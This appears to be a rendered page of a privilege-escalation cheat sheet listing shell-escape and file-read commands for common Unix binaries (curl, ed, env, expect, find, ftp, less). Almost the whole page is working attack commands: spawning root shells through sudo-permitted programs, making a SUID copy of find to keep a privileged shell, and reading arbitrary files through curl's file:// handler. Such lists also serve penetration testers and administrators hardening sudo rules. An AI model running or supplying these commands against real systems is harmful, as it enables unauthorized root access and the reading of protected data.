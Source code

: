 ## | curl
#### \#  file read
```
LFILE=/tmp/file_to_read
curl file://$LFILE
```

## | ed
```
sudo ed
!/bin/bash
```

## | env

#### \#  shell
```
env /bin/sh
```
#### \#  sudo
```
sudo env /bin/sh
```

## expect
#### \# shell
```
sudo expect -c 'spawn /bin/sh;interact'
```
## find
#### \# shell
```
sudo find . -exec /bin/sh \; -quit
```
#### \# suid
```
sudo sh -c 'cp $(which find) .; chmod +s ./find'

./find . -exec /bin/sh -p \; -quit
```

## ftp  
#### \# shell
```
sudo ftp
!/bin/sh
```
## less
#### \# shell
```
sudo less /etc/profile
!/bin/sh
```
